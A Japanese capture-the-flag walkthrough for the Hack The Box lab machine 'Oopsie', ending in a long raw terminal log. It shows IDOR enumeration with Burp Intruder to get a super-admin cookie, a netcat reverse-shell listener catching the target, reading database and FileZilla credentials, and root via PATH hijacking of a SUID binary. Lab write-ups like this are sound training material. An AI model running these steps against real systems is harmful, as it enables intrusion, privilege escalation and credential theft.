




### 0. はじめに
Hack the box のウォークスルー（CTFでいうWrite Up）の英語版はたくさん存在するが，
日本語はあまり見かけないため，今回から日本語で記載．

### 1. ポートスキャン
TCPのポートでサービスが何を動いているかをnmapによって調査．
（nmapは速度は遅いが，--scriptオプションがかなり優秀）
```
$ sudo nmap -A 10.10.10.28
```
オプションは適時変更する．
今回は，22番（SSH）と80番（HTTP）が動いていることが分かる．
SSHはマシン管理者の整備用であると思われるため，
80番を中心に見ていく．

### 2. Webアプリケーションへの攻撃
ブラウザでhttp://10.10.10.28/ にアクセスするが，あまり情報が得られず．
そこでプロキシツールにより通信を見るために，Burp Suiteを使用する．
（この工程はブラウザの開発オプションで代用可能）
Burp Suiteの設定はFoxy Proxyを利用すると簡単に設定，変更ができる．
詳しくは以下を参照してほしい[1](https://ztetez.hatenablog.com/entry/2019/04/06/165943 "1")．
Burp SuiteのTarget->Site mapからcdn-cgi/login/というディレクトリがあることが分かる．

Webブラウザで，http://10.10.10.28/cdn-cgi/login にアクセスする．
ログインフォームに，前回のマシンであるArchetypeで入手したパスワードを入力する．
```
Username : administrator
Password : MEGACORP_4dm1n!!
```
ログイン後，Uploadsページはsuper adminユーザが必要であるとわかる．
また，Burpでプロキシをかませた後，アップロードページを見ると，以下のメソッドが送信されていることが分かる．
```
GET /cdn-cgi/login/admin.php?content=accounts&id=1
```
このことから，id=の後の数字を変えることで，ログインしているユーザを変えることができることに気づく．
そこで，Burpで自動にそれらをしてくれるIntruderにこの通信内容を投げる(Proxy->HTTP history から該当の通信を右クリック->IntruderまたはCtrl-I)．
また，下準備にターミナルで以下を入力し，出力をコピーしておく(forループで1~100までの数字を出力するだけ)．

```
for x in $(seq 1 100);do echo $x;
```
Intruder->Payload Options\[Simple list\]の欄に張り付け，Optionタブから，Redirections->Follow redirectionsをAlwaysにし，Process cookies in redirectionsにチェックを入れる．
（※Follow redirectionsは、リダイレクトする際にクリックが必要なWeb UIがあったときに自動的に遷移させる，Process cookies in redirectionsはリダイレクト先にもcookieを転送する設定[2](https://portswigger.net/burp/documentation/desktop/tools/repeater/options "2")）
attackをクリックし，攻撃を実行すると以下の図のようになる．



実行をLengthでソートし，文字列の長さが通常とは異なるリクエストを中心に確認をしていく．
Payloadが30であるリクエストを確認するとsuper adminであることがわかり，そのcookieは86576であることがわかる．
このcookieを用いてsuper admin権限でuploadサイトに遷移する．











### 2. 
```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.28/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.28/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/20 11:25:29 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.28/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.28/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.28/images/]
/index.php            (Status: 200) [Size: 10932]                               
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.28/js/]    
/server-status        (Status: 403) [Size: 276]                                 
/themes               (Status: 301) [Size: 311] [--> http://10.10.10.28/themes/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.28/uploads/]
                                                                                 
===============================================================
2021/07/20 11:26:48 Finished
===============================================================
```


```

┌──(kali㉿kali)-[~/Documents/htb/starting_point]
└─$ nc -lnvp 1234                                     
listening on [any] 1234 ...
connect to [10.10.14.176] from (UNKNOWN) [10.10.10.28] 51140
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:04:10 up  3:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /var/www/html/cdn-cgi/login
admin.php
db.php
index.php
script.js

$ cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
$ su robert
su: must be run from a terminal
$ find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker
$ id robert
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
$ ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
$ cat /usr/bin/bugtracker
 �TTTDDP�td��888(                                                                                            
            �                                                                                                
             �                                                                                               
 ��/lib64/ld-linux-x86-64.so.2GNUGNU�uCBD��\��K��V��+�9� H(]Ad{� OV�                                         
                                                                     l"libc.so.6setuidstrcpy__isoc99_scanf__stack_chk_failputcharprintfstrlenmallocstrcatsystemgeteuid__cxa_finalize__libc_start_mainGLIBC_2.7GLIBC_2.4GLI u▒i.2 � � M_der� isterTMCloneTable__gmon_start___ITM_registerTMCloneTableii
� � � � � � � � �� 
                   � 
� H�H� H��t��H���5� �%� @�%� h������%� h������%� h������%� h������%� h������%� h������%� h������%� h�p����%� �`����%� h      �P����%� h
]��f.�]�@f.�H�=9 H�52 UH)�H��H��H��H��?H�H��t▒H�� H��t
                                                      ]��f�]�@f.��=� u/H�=� UH��t
����H����� ]����fDUH��]�f���UH��SH��(H�}�H�u�H�E�H���9���H��H�E�H���*���H�H��H���k���H�E�H�U�H�E�H��H�������H�U�H�E�H��H���a���H�E�H��([]�UH��H��0dH�%(H�E�1�H�@H�E�H�E�H��H�=j������H�=\������H�\H�E�H�E�H��H�=6������H�E�H��H�=������������������H�E�H��H�= �����H���Y����
�����H�E�dH3%(t�*������AWAVI��AUATL�%� UH�-� SA��I��L)�H�H�������H��t 1��L��L��D��A��H��H9�u�H�[]A\A]A^A_Ðf.���H�H��
------------------
: EV Bug Tracker :
------------------

%sProvide Bug ID: ---------------

cat /root/reports/D��������������`�����*�������▒p���`zRx
                                                       H���+zRx
                                                              $H����F▒J
E�f                                                                    �?▒;*3$"D��� \����pA�C
8#TT 1tt$D���o�N
D�����eB�B▒�E �B��▒VPP�^���oBB"k���ohhz��▒�B▒�pp�����$
$                                                     $ p
���o�P�                                                 �0
�                                                         0
 ��� GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.08Tt��Ph  �  ��
h                                                            �
 p                                                            D��
$ �                                                              �
�h ��0+@▒       0�▒�$ ^L                                          �h
/bin/sh: 9: 
   �        : not found
$   ▒ ��
$ �p���$yh      7▒ Fp
$  �h  
$      ( �  DX 
 _s���j p��� � 
               *�
e:�▒▒ �+N▒ Z�   �_y� � ��"4
                           pcrtstuff.cderegister_tm_clones__do_global_dtors_auxcompleted.7697__do_global_dtors_aux_fini_array_entryframe_dummy__frame_dummy_init_array_entrytest.c__FRAME_END____init_array_end_DYNAMIC__i$ t_array_start__GNU_EH_FRAME_HDR_GLOBAL_OFFSET_TABLE___libc_csu_finiputchar@@GLIBC_2.2.5_ITM_deregisterTMCloneTablestrcpy@@GLIBC_2.2.5_edatastrlen@@GLIBC_2.2.5__stack_chk_fail@@GLIBC_2.4system@@GLIBC_2.2.5printf@@GLIBC_2.2.5concatgeteuid@@GLIBC_2.2.5__libc_start_main@@GLIBC_2.2.5__data_start__gmon_start____dso_handle_IO_stdin_used__libc_csu_initmalloc@@GLIBC_2.2.5__bss_startmain__isoc99_scanf@@GLIBC_2.7strcat@@GLIBC_2.2.5__TMC_END___ITM_registerTMCloneTablesetuid@@GLIBC_2.2.5__cxa_finalize@@GLIBC_2.2.5.symtab.strtab.shstrtab.interp.note.ABI-tag.note.gnu.build-id.gnu.hash.dynsym.dynstr.gnu.version.gnu.version_r.rela.dyn.rela.plt.init.plt.got.text.fini.rodata.eh_frame_hdr.eh_frame.init_array.fini_array.dynamic.data.bss.comment
$ $ $ $ $ $ $ $ $ $ $ $ $ 
$ 
$ 
$ /usr/bin/bugtracker
/bin/sh: 29: /usr/bin/bugtracker: Permission denied
$ strings /usr/bin/bugtracker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
strcpy
__isoc99_scanf
__stack_chk_fail
putchar
printf
strlen
malloc
strcat
system
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7697
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
test.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
putchar@@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
strcpy@@GLIBC_2.2.5
_edata
strlen@@GLIBC_2.2.5
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
printf@@GLIBC_2.2.5
concat
geteuid@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
malloc@@GLIBC_2.2.5
__bss_start
main
__isoc99_scanf@@GLIBC_2.7
strcat@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
$ export PATH=/tmp:$PATH
$ cd /tmp/
$ echo '/bin/sh' > cat
$ chmod +x cat
$ /usr/bin/bugtracker
/bin/sh: 35: /usr/bin/bugtracker: Permission denied
$ su 
su: must be run from a terminal
$ /sur/bin/bugtracker
/bin/sh: 37: /sur/bin/bugtracker: not found
$ cd
$ /usr/bin/bugtracker
/bin/sh: 39: /usr/bin/bugtracker: Permission denied
$ cd /tmp
$ /usr/bin/bugtracker
/bin/sh: 41: /usr/bin/bugtracker: Permission denied
$ pwd
/tmp
$ cat cat

^Z
zsh: suspended  nc -lnvp 1234
                                                                                                             
┌──(kali㉿kali)-[~/Documents/htb/starting_point]
└─$ nc -lnvp 1234                                                                                  148 ⨯ 1 ⚙
listening on [any] 1234 ...
connect to [10.10.14.176] from (UNKNOWN) [10.10.10.28] 51150
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:16:44 up  3:16,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ su robert
su: must be run from a terminal
$ cd ~
/bin/sh: 2: cd: can't cd to ~
$ su tobert
su: must be run from a terminal
$ python3 -c 'import pty; pty.spawn*
> 
> ;
> ^Z
zsh: suspended  nc -lnvp 1234
                                                                                                             

$ SHELL=/bin/bash script -q /dev/null
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

robert@oopsie:/$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ echo '/bin/sh' > cat
echo '/bin/sh' > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
chmod: changing permissions of 'cat': Operation not permitted
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

# id
id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
# cd /root
lcd /root
# ls
lls
/bin/sh: 3: lls: not found
# ls
ls
reports  root.txt  root.txt~
# cat root.txt
cat root.txt
# more root.txt
more root.txt
af13b0bee69f8a877c3faf667f7beacf
# ls -la
ls -la
total 52
drwx------  8 root root   4096 Aug 31 07:09 .
drwxr-xr-x 24 root root   4096 Jan 27  2020 ..
lrwxrwxrwx  1 root root      9 Jan 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root   3106 Apr  9  2018 .bashrc
drwx------  2 root root   4096 Jan 24  2020 .cache
drwxr-xr-x  3 root root   4096 Jan 25  2020 .config
drwx------  3 root root   4096 Jan 24  2020 .gnupg
drwxr-xr-x  3 root root   4096 Jan 23  2020 .local
-rw-r--r--  1 root root    148 Aug 17  2015 .profile
drwxr-xr-x  2 root root   4096 Aug 31 07:21 reports
-rw-r--r--  1 root root     33 Feb 25  2020 root.txt
-rw-r--r--  1 root robert   33 Aug 31 07:09 root.txt~
drwx------  2 root root   4096 Jan 23  2020 .ssh
-rw-------  1 root root   1325 Mar 20  2020 .viminfo
# more /root/.config/FileZilla
more /root/.config/FileZilla
more: stat of /root/.config/FileZilla failed: No such file or directory
# more /root/.config/FileZilla
more /root/.config/FileZilla
more: stat of /root/.config/FileZilla failed: No such file or directory
# cd .config
cd .config
# ls
ls
filezilla
# more filezilla
more filezilla

*** filezilla: directory ***

# less filezilla
less filezilla
WARNING: terminal is not fully functional
filezilla is a directory
# ls filezilla
ls filezilla
filezilla.xml
# cd filezilla
cd filezilla
# more filezilla.xml 
more filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
# 
                            
```
